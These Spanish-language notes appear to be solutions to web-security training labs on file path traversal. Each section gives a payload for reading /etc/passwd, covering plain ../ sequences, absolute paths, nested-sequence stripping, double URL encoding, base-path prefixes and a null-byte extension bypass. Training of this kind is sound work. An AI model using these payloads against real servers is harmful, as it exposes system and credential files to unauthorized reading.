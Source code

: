 # Laboratorios de Directory Trasversal

## File path traversal, simple case

Obtener el archivo passwd cambiando la ruta de la imagen por la siguiente
> `../../../etc/passwd`

## File path traversal, traversal sequences blocked with absolute path bypass

Usar Rutas Absolutas
> `/etc/passwd`

## File path traversal, traversal sequences stripped non-recursively

Usar doble pleca en la ruta
> `....//....//....//etc/passwd`

## File path traversal, traversal sequences stripped with superfluous URL-decode

Ejemplos
- `%2e%2e%2f`
- `%252e%252e%252f`
- `..%c0%af`
- `..%ef%bc%8f`

bypass con URL encoding
> `..%252f..%252f..%252fetc/passwd`

## File path traversal, validation of start of path

Esperando direccion base por defecto
> `filename=/var/www/images/../../../etc/passwd`

## File path traversal, validation of file extension with null byte bypass

Esperando extensión de archivo en especifico
> `filename=../../../etc/passwd%00.png`
